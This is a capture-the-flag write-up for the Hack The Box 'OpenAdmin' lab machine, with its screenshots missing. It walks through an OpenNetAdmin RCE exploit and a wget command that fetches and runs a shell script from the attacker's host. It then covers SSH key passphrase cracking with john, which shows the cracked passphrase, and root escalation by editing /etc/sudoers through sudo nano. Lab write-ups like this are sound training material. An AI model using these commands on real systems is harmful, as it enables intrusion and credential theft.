

# OpenAdmin

### Machine Info


#### Nmap


##### Dirbuster


##### HTTP(Port 80)

`http://10.10.10.171/msuic/`:


`http://10.10.10.171/ona/`:


The title of the page is `OpenNetAdmin` and `OpenNetAdmin version 18.1.1` is running.

Let's check if there is a public exploit for `OpenNetAdmin`:


As we can see from the result, the `OpenNetAdmin version 18.1.1` is vulnerable to `RCE(Remote Code Execution)`.

I used exploit `47691.sh`

From the limited shell:
```
$ wget http://10.10.14.37:8080/shell.sh -O /tmp/shell.sh
$ chmod 755 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

`nc` listener on attacking side:


#### Privilege Escalation

Before I check for files manually, I ran enumeration scripts `lse.sh`, []()https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh. However I couldn't get good information to escalate my privilege.

Therefore I just checked some files manually and found this:


The interesting directory:</br>
The owner of the directory `internal` is `jimmy`.


Files which includes word `passwd`:


And from file `database_settings.inc.php`:



I tried to `ssh` with that password to user `root`, `jimmy` and `joanna` and I was able to login to user `jimmy` with password.


So now I am user `jimmy` and I can check that interesting directory.


I checked them manually and `main.php` was interesting one.


This one will provide us `ssh_key` of joanna:


But failed. Let's enumerate more. I checked apache configuration and found reason:


For the `internal` directory, I should connect to localhost and port `52846`:


Finally, I got the `rsa_key` but it is protected with paraphrase. `John the Ripper` can decrypt this paraphrase maybe.

First copy the `rsa_key` from victim to my kali machine and convert key to crackable format. If converted file is in right format we can use `john` to crack:
```
~/htb/OpenAdmin root@kali
❯ ssh2john joanna_rsa > crack_rsa
❯ john --wordlist=/usr/share/wordlists/rockyou.txt crack_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/32])
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
1g 0:00:00:11 DONE (2020-02-21 13:22) 0.08665g/s 829809p/s 829809c/s 829809C/s bloodninjas
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Finally, I got the `rsa_key` and `paraphrase: bloodninjas`. It's time to `ssh`.

```
~/htb/OpenAdmin root@kali
❯ ssh joanna@10.10.10.171 -i joanna_rsa
--------------- SIP ------------------------
Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$
```

We are now user `joanna` and need more enumeration to get `root` shell.

Start with simple enumeration `sudo` privilege:


Yeah. User `joanna` can run command `/bin/nano /opt/priv` with `root` privilege:
```
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

After open `/opt/priv` just read file `/etc/sudoers` and change like below image and save to `/etc/sudoers`:


Now user `joanna` can run any command with `root` privilege:


And you can get `root.txt` :)
